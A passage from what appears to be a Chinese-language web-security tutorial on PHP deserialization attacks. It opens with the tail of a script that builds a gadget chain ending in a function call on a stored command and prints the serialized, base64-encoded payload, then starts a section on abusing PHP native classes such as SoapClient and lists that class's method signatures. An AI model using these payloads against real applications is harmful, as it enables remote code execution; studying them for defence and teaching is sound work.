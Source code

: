             public function __construct($command)
            {
                $this->value = $command;
            }
        
            public function eval($call)
            {
                $call($this->value);
            }
        }
        
        $a = new a();
        $a->test = new c();
        echo serialize($a);
        print("\r\n\r\n");
        echo base64_encode(serialize($a));
        ```

        

        

    

### 1.4  php原生类与php反序列化

>   参考：[PHP 原生类的利用小结](https://whoamianony.top/2021/03/10/Web%E5%AE%89%E5%85%A8/PHP%20%E5%8E%9F%E7%94%9F%E7%B1%BB%E7%9A%84%E5%88%A9%E7%94%A8%E5%B0%8F%E7%BB%93/)

在反序列化过程中，有时没有有用的自定义类的利用；**但php在开启一些服务时，会启动一些类(原生类)**，我们就可以利用原生类来达到目的  

#### 1.4.1 SoapClient--原生类(__call方法)

>   PHP 的内置类 SoapClient 是一个专门用来访问web服务的类，可以提供一个基于SOAP协议访问Web服务的 PHP 客户端。

```php
SoapClient {
	/* 方法 */
	public __construct ( string|null $wsdl , array $options = [] )
	public __call ( string $name , array $args ) : mixed
	public __doRequest ( string $request , string $location , string $action , int $version , bool $oneWay = false ) : string|null
	public __getCookies ( ) : array
	public __getFunctions ( ) : array|null
	public __getLastRequest ( ) : string|null
	public __getLastRequestHeaders ( ) : string|null
	public __getLastResponse ( ) : string|null
	public __getLastResponseHeaders ( ) : string|null
	public __getTypes ( ) : array|null
	public __setCookie ( string $name , string|null $value = null ) : void
	public __setLocation ( string $location = "" ) : string|null
	public __setSoapHeaders ( SoapHeader|array|null $headers = null ) : bool
	public __soapCall ( string $name , array $args , array|null $options = null , SoapHeader|array|null $inputHeaders = null , array &$outputHeaders = null ) : mixed
}
```
